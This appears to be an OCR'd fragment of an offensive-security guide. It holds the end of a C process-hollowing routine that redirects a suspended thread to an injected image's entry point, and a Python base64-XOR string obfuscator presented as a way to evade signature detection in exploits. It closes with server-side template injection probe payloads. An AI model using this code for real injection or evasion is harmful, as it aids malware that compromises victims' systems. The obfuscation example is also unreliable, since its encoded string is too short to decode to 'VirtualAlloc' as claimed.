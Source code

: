 ```c
    ctx.Eax = (DWORD)pImageBase + entry_point_offset;
    SetThreadContext(pi.hThread, &ctx);
    
    // Resume thread
    ResumeThread(pi.hThread);
    
    return 0;
}
```

### Obfuscation Techniques

#### String Obfuscation
```python
# Obfuscate strings to avoid signature detection
def obfuscate_string(s):
    """Base64 + XOR obfuscation"""
    import base64
    key = 0x42
    encoded = base64.b64encode(bytes([c ^ key for c in s.encode()])).decode()
    return encoded

def deobfuscate_string(s):
    """Reverse obfuscation"""
    import base64
    key = 0x42
    decoded = bytes([c ^ key for c in base64.b64decode(s)])
    return decoded.decode()

# Usage in exploit
api_call = deobfuscate_string("Gx4bHRsd")  # "VirtualAlloc"
```

---

## Advanced Web Application Attacks

### Server-Side Template Injection (SSTI)

#### Detection
```python
# Test payloads for various template engines
payloads = {
    "Jinja2": "{{7*7}}",  # Python
    "Twig": "{{7*7}}",    # PHP
    "Freemarker": "${7*7}",  # Java
    "Velocity": "#set($x=7*7)$x",  # Java
    "Smarty": "{7*7}",  # PHP
}

# Expected output: 49
```
